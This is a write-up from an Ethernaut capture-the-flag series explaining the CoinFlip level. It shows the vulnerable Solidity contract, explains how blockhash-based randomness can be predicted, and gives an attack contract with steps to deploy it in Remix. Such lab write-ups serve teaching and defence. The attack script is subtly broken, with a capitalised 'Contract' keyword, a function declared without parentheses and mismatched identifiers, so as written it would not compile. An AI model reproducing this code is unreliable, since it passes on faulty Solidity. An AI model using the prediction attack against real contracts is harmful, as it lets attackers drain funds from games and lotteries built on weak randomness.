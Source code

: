 # CoinFlip

Welcome to my Ethernaut solution series!
Today we will discuss the vulnerailities and the solution to 3rd problem called CoinFlip.
This smart contract is a coin flipping game where the player needs to get a winning streak by guessing the outcome of a coin. 

The goal of this challenge is:
1. Guess the correct outcome 10 times in a row

Let's take a look at the target contract:
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract CoinFlip {

  using SafeMath for uint256;
  uint256 public consecutiveWins;   // consecutiveWins is the public uint variable holding the wins in a row for the player. 
                                    // We need to somehow increment this value to 10 to win this game.
  uint256 lastHash;   // lastHash is a variable which stores the value of a hash of the last block of our Rinkby blockchain.
                      // It is a state variable which is used to compare if the 
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;   // FACTOR is the variable holding a constant value
                      // which is used as a part of the process of creating entropy.

  constructor() public {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number.sub(1)));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue.div(FACTOR);
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
```
## Code review

### Constructor
- The variable consecutiveWins needs to be initialised to Zero for every instance of the game.

### Functions
- We just have one function in this problem. The flip function takes in a parameter which is a bool. This is the guess provided by the player to play the game and predict the outcome as heads or tails mapped to True or False.
- The function also returns a bool which specifies that the guess by the player was correct or not.
The first part 
- lets look at line 18:
```solidity
uint256 blockValue = uint256(blockhash(block.number.sub(1)));
```
- Here block.number will give us the current block number, but as this block isnt mined yet, the contract cannot use it to create a hash. So we take the last mined block and compute a hash of that block number.
- Then we convert it to uint256 and store it in the variable blockValue. This variable is not needed in all instances, hence, it is not a state variable.
- Now the state variable lastHash is compared with blockValue to check if the last blockValue variable value is used again. The contract need to have a unique value everytime the function is called.

- on line 25, the value stored in the local variable blockValue is divided by the long number in the variable FACTOR. This action is done to increase the randomness. 
```solidity
uint256 coinFlip = blockValue.div(FACTOR);
```
- The value of coinFlip is compared to 1. If it matches then the variable side is True else False.
- Next it compares the the player's guess with the variable side. We need to match this variable 10 times in a row.

## Vulnerability

- The flawed way of using randomness is using globally accessible variables and functions to derive randomness. This means that anybody can see the values of these variables and by using them as seeds, recreate the random number. 
- In our case, the global variable used is blockhash(blockNumber). This gives the hash of the given block. In the code, blocknumber of the last mined block is used.
- The code also divides the hash with the constant FACTOR. Again this is a publicly accessible number which can be used while recreating the required random number.

## How to avoid the vulnerability

Avoid using variables such as timestamp, gasprice, difficulty, etc. for seeds while generating a random number.

## Solution
The hack for this problem is:
Write a new contract to recreate the flip value using the same globally accessible variables and call the public function flip from the CoinFlip contract. In the contract we will use the same variable value for FACTOR and access the globally available variables and replicate the coin's side to beat the game.

### Attack script
```solidity
Contract CoinFlipAttack {
	CoinFlip public victimContract;

    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

	constructor(address _victimContractAddr) public { 
		victimContract = coinFlip(_victimContractAddress);
	}
	
	function flip public returns (bool) {
		uint256 blockValue = uint256(blockhash(block.number - 1));
		uint256 coinFlip = uint256(blockValue/FACTOR);
		bool side = coinFlip == 1 ? true : false;

		victimContract.flip(side);
	}
}
```

### Code Review

- In the constructor we initialize the public variable victimContract with the instance of the object of the vulnerable contract we want to attack by passing the address of the instance of the Ethernaut contract. Note: While creating the object, we are not using the "new" keyword as we are not creating a new instance of the contract, but trying to access the already existing instance of the contract. 
- In the flip function we perform 2 steps: retrieve the publically accessible block number of the blockchain and divide the value by FACTOR.
- We check the value of the coinFlip variable and assign true or false value to our side variable.
- Then the flip function of the vulnerable contract is called using the instance earlier initialized and side variable is passed as an argument. 

## Attack execution

- Lets get the contract instance address of CoinFlip.sol from the Ethernaut console page first using the below command.
```solidity
await contract.address
```
- Compile and deploy both solidity codes, Coinflip.sol and CoinFlipAttack.sol on Remix IDE. while deploying CoinFlipAttack.sol, use the address retrieved in the above step.
- Once CoinFlipAttack is deployed, you will be able to see a flip function in the IDE. You will have to trigger that function. 
- This will generate the value for "side" variable same as that is created in the CoinFlip contract as the seed values used to create the random number.
- This side variable value is then sent to the flip function of CoinFlip function. This will execute the condition `if (side == _guess)` in the flip function and as we have the same guess as the side, we are always going to win!

## Conclusion
A smart contract should not use publically accessible numbers as seed to generate a random number. We could easily re-create the random number and provide a guess to the coin flop 100% of the time.